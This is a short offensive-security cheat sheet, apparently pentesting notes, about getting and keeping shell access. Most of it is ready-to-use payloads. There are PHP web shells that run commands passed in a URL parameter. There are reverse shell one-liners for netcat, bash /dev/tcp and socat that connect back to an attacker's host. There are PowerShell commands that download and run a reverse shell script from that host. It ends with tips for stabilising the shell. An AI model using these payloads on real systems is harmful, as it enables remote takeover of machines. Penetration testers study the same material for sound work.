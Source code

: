 # shells

## Web shells

- Simple web shells

```shell
<?php system($_GET['cmd']); ?>
```

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- Infamous pentestmonkey PHP reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- PHP reverse shell (windows also) [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

## Payloads

A list of reverse shell payloads can be found at [PayloadsAllTheThings GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). 
Common payloads include

- Netcat traditional
```
nc ip 4444 -e /bin/bash
```
- Netcat 
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 4444 >/tmp/f
```
- Bash TCP
```shell
bash -i >& /dev/tcp/$me/4444 0>&1
```
- Socat
```shell
# listener
socat TCP-L:4444 FILE:`tty`,raw,echo=0

# victim
socat TCP:me:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
- Powershell
```powershell
powershell -c "iex (New-Object Net.WebClient).DownloadString('http://$me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress $me -Port 4444"
```
- Powershell (staged)
```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://$me:8888/Invoke-PowerShellTcp.ps1')
powershell Import-Module ./Invoke-PowerShellTcp.ps1; Invoke-PowershellTcp -Reverse -IPAddress $me -Port 4444
```


## Stabilization

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
alias grep='grep --color=auto'
export TERM=xterm
```

depending on Python version available.

- Set up autocomplete. Background the shell using `CTRL + Z` and run

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.

